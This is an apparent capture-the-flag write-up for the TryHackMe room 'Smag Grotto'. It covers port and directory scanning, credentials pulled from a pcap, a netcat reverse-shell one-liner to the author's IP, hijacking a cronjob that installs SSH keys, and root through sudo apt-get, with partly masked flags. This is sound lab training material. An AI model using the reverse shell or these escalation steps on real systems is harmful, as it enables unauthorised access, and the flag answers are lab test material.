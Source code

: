 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![https://i.imgur.com/D9PypUN.png](https://i.imgur.com/D9PypUN.png)

Let's see if there is something on the website

![https://i.imgur.com/aXIQi2Y.png](https://i.imgur.com/aXIQi2Y.png)

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt                                               2:10:03 # Select your own wordlist                                              2:06:46
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

![https://i.imgur.com/V1XUxTY.png](https://i.imgur.com/V1XUxTY.png)

![https://i.imgur.com/UZZG0pk.png](https://i.imgur.com/UZZG0pk.png)

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

![https://i.imgur.com/FZ4Kz25.png](https://i.imgur.com/FZ4Kz25.png)

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

![https://i.imgur.com/yKY9pMB.png](https://i.imgur.com/yKY9pMB.png)

![https://i.imgur.com/RR1fGLX.png](https://i.imgur.com/RR1fGLX.png)

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

![https://i.imgur.com/Q5KPLgs.png](https://i.imgur.com/Q5KPLgs.png)

![https://i.imgur.com/FLbTQw7.png](https://i.imgur.com/FLbTQw7.png)

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

![https://i.imgur.com/L0iBMqp.png](https://i.imgur.com/L0iBMqp.png)

Nice, we can execute remote command let's try a reverse shell 🤩

![https://i.imgur.com/UJiq34Y.png](https://i.imgur.com/UJiq34Y.png)

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

![https://i.imgur.com/4pVmO2j.png](https://i.imgur.com/4pVmO2j.png)

Nice we have a reverse shell, let's see if we can have the first flag 🏅

![https://i.imgur.com/i1MkJLx.png](https://i.imgur.com/i1MkJLx.png)

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

![https://i.imgur.com/G9PaoMF.png](https://i.imgur.com/G9PaoMF.png)

Ah, I found something very interesting with the cronjob

![https://i.imgur.com/MkUFU4L.png](https://i.imgur.com/MkUFU4L.png)

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o                                                                                               2:25:52
```

![https://i.imgur.com/kXjks3E.png](https://i.imgur.com/kXjks3E.png)

Nice we have our own SSH public key let's change the backup file on the server 👍

![https://i.imgur.com/Q7IGUeR.png](https://i.imgur.com/Q7IGUeR.png)

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6                                                            2:28:49
```

![https://i.imgur.com/hEeAJH6.png](https://i.imgur.com/hEeAJH6.png)

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

![https://i.imgur.com/5xn3kch.png](https://i.imgur.com/5xn3kch.png)

### **#2 What is the root flag?**

Now let's get a root access 😍

![https://i.imgur.com/TcRPpC7.png](https://i.imgur.com/TcRPpC7.png)

![https://i.imgur.com/9sh8unG.png](https://i.imgur.com/9sh8unG.png)

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

![https://i.imgur.com/iDrkgGN.png](https://i.imgur.com/iDrkgGN.png)

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
